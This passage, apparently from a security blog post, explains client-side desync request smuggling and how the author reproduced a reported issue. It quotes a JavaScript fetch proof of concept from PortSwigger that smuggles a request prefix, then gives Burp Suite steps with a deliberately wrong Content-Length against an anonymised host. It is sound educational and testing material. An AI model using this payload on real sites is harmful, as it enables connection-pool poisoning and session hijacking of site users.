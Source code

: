 ```javascript
fetch('https://vulnerable-website.com/vulnerable-endpoint', {
    method: 'POST',
    body: 'GET /404 HTTP/1.1\r\nFoo: x', // smuggled request prefix
    mode: 'no-cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).then(() => {
    location = 'https://vulnerable-website.com/' // uses the poisoned connection
})
```

> The steps above were taken from [Web Security Academy](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#probing-for-client-side-desync-vectors)

### Key Considerations
When *confirming* a CSD issue, ensure that your requests are ones that a browser can actually send. This means you should not alter the `Content-Type` from what it actually is, and avoid changing the `Content-Length` to an incorrect value. Make sure that the request is HTTP RFC-compliant, the vulnerability should exist without misconfiguration. Otherwise, you cannot create a working POC.

> The application <u>cannot</u> support HTTP/2, otherwise, the desync would not occur as the browser defaults to the highest protocol supported.
{: .prompt-danger}
---------------------------------------------------------------------------------------------------

## So what happened to the issue?
Now that we've got a good background of the issue being reviewed, this was the testing methodology, i.e., the steps to reproduce the issue under review.

1. Add the following HTTP request to a Repeater tab in Burp Suite:
  *Not the incorrect `Content-Length`*
 
> *Identifying information has been removed*
{: .prompt-warning}

```http
POST /someEndpoint HTTP/1.1
Host: public.facing.host.com
Content-Type: x-www-form-urlencoded
Content-Length: 3
Connection: Keep-Alive

x=123
```
{:start="2"}
2. Disable Burp Suite's automatic Content-Length updating.
3. Create an additional `GET` request for the home page:

```http
GET / HTTP/1.1
Host: public.facing.host.com
Connection: Keep-Alive

```
